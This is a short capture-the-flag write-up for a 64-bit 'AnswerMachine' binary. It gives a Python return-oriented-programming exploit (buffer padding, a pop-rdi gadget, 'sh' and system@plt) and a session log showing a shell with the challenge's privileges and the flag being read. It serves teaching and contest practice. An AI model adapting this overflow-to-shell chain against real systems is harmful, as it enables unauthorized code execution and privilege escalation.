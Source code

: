 ### Solved by superkojiman

At some point, the organizers decided to recompile all the binaries into 64-bit since some teams were apparently bruteforcing ASLR. Points were removed for AnswerMachine and rop2libc, so I had to redo those. 

This time, the hint from the last flag informed me that I could've used "sh" from the binary. So here's the new exploit:

```python
#!/usr/bin/env python
from pwn import *

system_addr = p64(0x400640)     # system@plt
binsh_addr = p64(0x400407)      # ptr to "sh"

buf = ""
buf += "A"*88                   # junk
buf += p64(0x0000000000400903)  # pop rdi
buf += binsh_addr
buf += system_addr

open("in.txt", "w").write(buf)
```

And, here, we, go:

```
team24254@shell:~$ (cat in.txt ;cat) | /problems/answer_machine/answer_machine
Welcome, today is Tue Apr 12 22:24:25 EDT 2016
I can't talk now, so leave a message:
Error opening file; message moved to trash
id
uid=1028(team24254) gid=1000(ctfgroup) euid=1081(answer_machine) groups=1004(answer_machine),1000(ctfgroup)
cat /problems/answer_machine/flag.txt
coulda_just_used_strftime_instead_amirite
```

Ta-da.

